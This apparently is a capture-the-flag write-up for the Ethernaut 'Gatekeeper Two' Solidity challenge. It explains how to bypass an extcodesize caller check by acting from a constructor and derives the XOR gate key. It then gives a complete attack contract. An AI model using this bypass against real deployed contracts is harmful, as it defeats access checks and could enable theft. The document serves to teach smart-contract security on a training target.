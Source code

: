 # Gatekeeper Two

As with Gatekeeper One, `gateOne()` is trivial (call `enter` using a contract). 
For `gateTwo()`, we see that `assembly { x := extcodesize(caller()) }` and `require(x==0)`, so somehow the size of the code of our attack contract must be 0. 
- The workaround is to call all the functions within the constructor (since code size is still 0 while still inside the construction clause).    

Finally, for `gateThree`, we have `require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1)` which can be rewritten as `require(a ^ b == c)`, which we prove is equivalent to `require(b == a ^ c)` below. 
- ```solidity
a ^ b == c
a ^ b ^ (b ^ c) == c ^ (b ^ c)
a ^ (b ^ b) ^ c == (c ^ c) ^ b
a ^ 0 ^ c == 0 ^ b
a ^ c == b
```
- Since `solidity ^0.8.0`, there is underflow and overflow checking, so `uint(64)-1` has to be written as `type(uint64).max`


```solidity
pragma solidity ^0.8.10;

import "forge-std/Test.sol";

contract AttackGatekeeperTwo {
    address public victim;
    
    constructor(address _victim) {
        victim = _victim;
        bytes8 _key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ (type(uint64).max)); 
        bytes memory payload = abi.encodeWithSignature("enter(bytes8)", _key);
        (bool success,) = victim.call(payload);

        uint x;
        assembly { x := extcodesize(address()) }
        console.log("extcodesize at constructor is: %s",x);

        require(success, "failed");
    }
}
```

